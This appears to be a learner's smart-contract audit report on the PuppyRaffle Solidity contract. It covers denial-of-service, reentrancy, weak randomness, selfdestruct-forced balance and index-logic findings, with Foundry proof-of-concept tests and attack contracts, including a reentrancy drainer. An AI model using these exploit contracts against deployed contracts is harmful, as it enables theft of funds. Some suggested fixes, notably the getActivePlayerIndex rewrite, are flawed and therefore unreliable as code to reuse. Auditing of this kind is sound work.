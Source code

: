 ### [Medium-1] An unbounded for loop that results into denial of service

**Description:** 

`PuppyRaffle::enterRaffle` implements a for loop logic that checks for duplicate address by running the check through the array, `PuppyRaffle::players` with a dynamic size. This check can get slowly gas expensive as new address is added to the array and more check is done OR exponentially gas expensive if exploited by attacker.
<details>
<summary>Code</summary>

```javascript
     // @Audit DoS attack
@>      for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }


```
</details>

**Impact:** 

Due to the unlimited size of the state variable array, `PuppyRaffle::players`, an attacker can exploit `PuppyRaffle::enterRaffle` by exponentially increasing the size of `PuppyRaffle::players`. This makes `PuppyRaffle::enterRaffle`  gas expensive while checking for duplicates address in the for loop. Exponential increase of the size of the array, `PuppyRaffle::players` will render it too expensive. Therefore, economically infeasible for users. Thereby limiting the winner address to attacker's array of addresses.

**Proof of Concept:**

For the first 100 players that entered the raffle, we have the gas to be: `6270396`
While the second 100 players to be: `24361862`

Therefore, this `4x` gas expensive for the second 100 players

<details>

<summary>PoC</summary>

place the following test into the test suite: `PuppyRaffleTest.t.sol`

```Javascript
 function test_DOSAttack() public {
        vm.txGasPrice(1);
        uint initial = gasleft();

        uint playerNumber = 100;

        //initialize an array for first 100 players
        address[] memory DoS_array = new address[](playerNumber);
        for (uint160 i = 0; i < playerNumber; i++) {
            DoS_array[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playerNumber}(DoS_array);
        //how much gases consumed?
        uint256 gases = initial - gasleft();
        console.log(gases);

        //the gas is astronomically high for second 100 players
        

        address[] memory DoS_arraySecond = new address[](playerNumber);
        for (uint160 i = 0; i < playerNumber; i++) {
            DoS_array[i] = address(i + playerNumber);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playerNumber}(DoS_array);
        //how much gases consumed?
        uint256 gasesSecond = initial - gasleft();
        console.log(gasesSecond);
        assert(gases < gasesSecond);
    }
```
</details>

**Recommended Mitigation:** 
1. The protocol might consider allowing duplicate address. This can be taken into consideration since an attacker can
enter the raffle with multiple addresses to bypass the "duplicate check." So, what use then?

2. Consider using a mapping to check duplicates. Each address that has entered the raffle can be mapped to `bool value:true`. This would allow check for duplicate in constant time.

```diff
-    for (uint256 i = 0; i < players.length - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }

+    mapping(address => bool) public isAddressEntered;


+  for (uint256 i = 0; i < newPlayers.length; i++) {
+      if (!isAddressEntered[newPlayers[i]]) {
+               players.push(newPlayers[i]);
+               isAddressEntered[newPlayers[i]] = true;
+           } else if (isAddressEntered[newPlayers[i]]) {
+               revert("PuppyRaffle: Duplicate player");
+           }
+ }
```
3. Lastly, you can implement [Openzepplin Enumerable library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)


### [High-#] RE-ENTRANCY ATTACK: Making external call before state change which would drain the contract balance

**Description:** 
`PuppyRaffle::refund` can be called repeatedly by another contract before its first invocation finishes due to it making 
external call before updating the state variable

```javascript

    @External call>    payable(msg.sender).sendValue(entranceFee);

    @State change>   players[playerIndex] = address(0);
```

**Impact:** 

An attacker can readily enter as a legitimate participant of the raffle and repeatedly exploit the `PuppyRaffle::refund` 
to drain the `PuppyRaffle` contract balance.

**Proof of Concept:**

Paste this test suite in the `PuppyRaffleTest.t.sol` 
<details>
<summary> Proof of Code </summary>

```javascript
   
    function testCanEnterRaffleReentrancy() public {
        //legitimate participants of the PuppyRaffle
        address[] memory players = new address[](4);

        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        uint raffleBalance_beforeAttack = address(puppyRaffle).balance;

        //An attacker enters the raffle with the intention of stealing all funds
        //in the puppyRaffle contract

        REENTRANCY_ATTACK AttackContract = new REENTRANCY_ATTACK(puppyRaffle);
        // address prankin = address(Attack);
        address attacker = makeAddr("Attacker");

        vm.deal(attacker, 2 ether);

        vm.prank(attacker);
        AttackContract.lets_play{value: entranceFee}();

        //Sending payload-
        AttackContract.attack();

        //Raffle balance after successful attack
        uint raffleBalance_afterAttack = address(puppyRaffle).balance;

        //attack contract balance after attack
        uint attackBalance = address(AttackContract).balance;

        //PROOF
        console.log("raffle balance before attack", raffleBalance_beforeAttack);
        console.log("raffle balance after attack", raffleBalance_afterAttack);

        console.log("AttackContract balance after attack", attackBalance);
    }


contract REENTRANCY_ATTACK {
    PuppyRaffle puppyRaffle;
    uint public playerIndex;
    uint public entranceFee;

    constructor(PuppyRaffle raffle) {
        puppyRaffle = raffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function lets_play() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
    }

    function attack() public {
        puppyRaffle.refund(playerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= 1 ether) {
            puppyRaffle.refund(playerIndex);
        }
    }

    fallback() external payable {}
}

```
</details>

**Recommended Mitigation:** 

Ensure the logic of your codebase conforms to the CEI flow:
* C: check, require statement
* E: Effect, update changes to the state variables if any
* I: Interaction, only make external calls then.

<details>
<summary>Proof of Code</summary>

```diff
@> refund function: 
-       payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);

+         players[playerIndex] = address(0);
+         payable(msg.sender).sendValue(entranceFee);
```

</details>

### [S-#] A logical error that leads to unexpected outcomes

**Description:** 

`PuppyRaffle::getActivePlayerIndex` is intended to return `uint 0` if the address is not active in an on-going Raffle. However, an active address with an index of zero in the `PuppyRaffle::players` will also return  `uint 0`.

**Impact:** 
 unexpected behaviour/outcome of `PuppyRaffle::getActivePlayerIndex` when called.

**Proof of Concept:**

<details>

Paste this in the test suite, `PuppyRaffleTest.t.sol`

<summary>Proof of Code</summary>

```javascript
    function testGetActivePlayerLogicError() public {
        address[] memory players = new address[](1);
        //only a user entered the raffle
        players[0] = playerOne;
        puppyRaffle.enterRaffle{value: entranceFee * 1}(players);

        //inactive player should return zero(uint)
        uint inActivePlayer= puppyRaffle.getActivePlayerIndex(playerTwo);

        //while an active player will return zero(uint) as well
         uint ActivePlayer= puppyRaffle.getActivePlayerIndex(playerOne);

       assertEq(inActivePlayer, ActivePlayer);
    }
```
</details>

**Recommended Mitigation:** 

Inactive address will return the string "not active" instead

```diff
- for (uint256 i = 0; i < players.length; i++) {
-           if (players[i] == player) {
-               return i;
-           }
-       }
-       return 0;
.
.
.
+   if (isAddressEntered[player]) {
+           for (uint i = 0; i < players.length; i++) {
+               players[i] == player;
+               return Strings.toString( i);
+           }
+       }
+       return ("not active");
```

### [S-#] Weak randomness, the winner index can be influenced

**Description:** 

For `PuppyRaffle::selectWinner`, using deterministic global variables such as "block.timestamp, block.difficulty, now" can be manipulated 

**Impact:** 
A malicious validator/miner can win and/or mint a rare NFT breed

**Proof of Concept:**
<details>

<summary>Proof of Code</summary>

```javascript
   function test_exploitWeakRandomness() public {
        address maliciousMiner = makeAddr("miner");
        address[] memory players = new address[](5);

        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        players[4] = maliciousMiner;
        puppyRaffle.enterRaffle{value: entranceFee * 5}(players);
        //by simulating a predetermined block difficulty and timestamp we can prove
        //that a miner/validator can do that too
        vm.warp(1678989);
        //console.log(block.timestamp);
        vm.prevrandao(bytes32(uint(25)));
       // console.log(block.difficulty);
        uint winningIndexManipulated = uint256(
            keccak256(
                abi.encodePacked(msg.sender, block.timestamp, block.difficulty)
            )
        ) % players.length;
         string memory maliciousMinerIndex = puppyRaffle.getActivePlayerIndex(
            maliciousMiner
        );
        address x= puppyRaffle.players(4);
        console.log(x, maliciousMiner,playerOne);
        assertEq(maliciousMinerIndex, Strings.toString(winningIndexManipulated));
    }
```

</details>

**Recommended Mitigation:** 

Implement chainlink veriable randomness [Chainlink_vrk](https://chain.link/vrf)

Note: onchain seeds are pre-deterministic


### [M-#] Dangerous strict equalities that can be easily manipulated could "permanently" lock the total fee accrued inside the contract.

**Description:** 
Using strict equalities in `PuppyRaffle::withdrawFees()` to determine when to withdraw the accrued fees can be exploited by a malicious user by externally modifying `address(this).balance` using self-destruct

**Impact:** 

`PuppyRaffle::totalFees` accrued would be "permanently" locked inside the contract 

**Proof of Concept:**

<details>

<summary> Proof of Code </summary>

Add this code to PuppyRaffleTest.t.sol

```javascript
 function test_DangerousEqualities() public {
        DangerousEqualities DContract = new DangerousEqualities(puppyRaffle);
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 2 ether);
        vm.startPrank(attacker);
        DContract.attack{value: 2 ether}();
        vm.stopPrank();
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();

        //not the same, hence the revert
        console.log(address(puppyRaffle).balance);
        console.log(puppyRaffle.totalFees());
      
    }

contract DangerousEqualities {
    PuppyRaffle _puppyRaffle;

    constructor(PuppyRaffle puppyRaffle) {
        _puppyRaffle = puppyRaffle;
    }

    function attack() public payable {
        address payable malicious = payable(address(_puppyRaffle));
        selfdestruct(malicious);
    }
}

```
</details>


**Recommended Mitigation:** 

```diff
    function withdrawFees() external {
-      require(
-            address(this).balance == uint256(totalFees),
-           "PuppyRaffle: There are currently players active!"
-       );
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;

        // slither-disable-next-line arbitrary-send-eth
        (bool success, ) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```